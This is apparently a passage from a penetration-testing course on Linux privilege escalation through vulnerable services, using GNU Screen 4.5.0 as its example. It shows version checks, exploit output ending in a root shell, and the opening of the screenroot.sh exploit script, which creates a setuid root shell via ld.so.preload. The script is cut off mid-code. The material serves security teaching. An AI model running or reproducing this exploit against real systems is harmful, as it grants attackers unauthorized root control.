 
<a id="orge276c0c"></a>

## Vulnerable Services

Many services may be found, which have flaws that can be leveraged to escalate privileges. An example is the popular terminal multiplexer [Screen](https://linux.die.net/man/1/screen). Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.
**Screen Version Identification**

    screen -v
    
    Screen version 4.05.00 (GNU) 10-Dec-16  

This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

**Privilege Escalation - Screen<sub>Exploit.sh</sub>**

    ./screen_exploit.sh 
    
    ~ gnu/screenroot ~
    [+] First, we create our shell and library...
    [+] Now we create our /etc/ld.so.preload file...
    [+] Triggering...
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /run/screen/S-mrb3n.
    
    # id
    uid=0(root) gid=0(root)
    groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)

The below script can be used to perform this privilege escalation attack:

    #!/bin/bash
    # screenroot.sh
    # setuid screen v4.5.0 local root exploit
    # abuses ld.so.preload overwriting to get root.
    # bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
    # HACK THE PLANET
    # ~ infodox (25/1/2017)
    echo "~ gnu/screenroot ~"
    echo "[+] First, we create our shell and library..."
    cat << EOF > /tmp/libhax.c
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    #include <sys/stat.h>
    __attribute__ ((__constructor__))
    void dropshell(void){
        chown("/tmp/rootshell", 0, 0);
        chmod("/tmp/rootshell", 04755);
        unlink("/etc/ld.so.preload");